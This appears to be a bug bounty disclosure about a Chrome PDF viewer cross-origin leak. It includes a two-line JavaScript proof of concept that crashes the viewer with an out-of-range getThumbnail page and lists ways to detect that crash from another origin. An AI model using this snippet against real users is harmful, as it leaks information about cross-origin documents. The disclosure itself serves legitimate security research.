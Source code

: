 ```yaml
---
title: PDF Page count leak (Awarded $500)
---
```


[Issue 1306443](https://bugs.chromium.org/p/chromium/issues/detail?id=1306443)

On chrome the PDF viewer has a message listener thats used for the cross-origin scripting API.  
By sending a message to the viewer with the type of getThumbnail and a page number thats greater then the number of available pages it would crash to prevent OOB access.
```js
let w = open('https://www.w3.org/WAI/ER/tests/xhtml/testfiles/resources/pdf/dummy.pdf');
setTimeout(_ => w[0].postMessage({type: 'getThumbnail', page: '1337'}, "*"), 1000);
```
This crash can be detected cross-origin in the following ways
- Checking device performance monitoring after ```w[0].postMessage({type: 'print'});```  such as https://devicemonitor.glitch.me/ 
- [Issue 1307087](https://bugs.chromium.org/p/chromium/issues/detail?id=1307087)
- Extension tabs API looking for the status of unloaded (no permission needed)
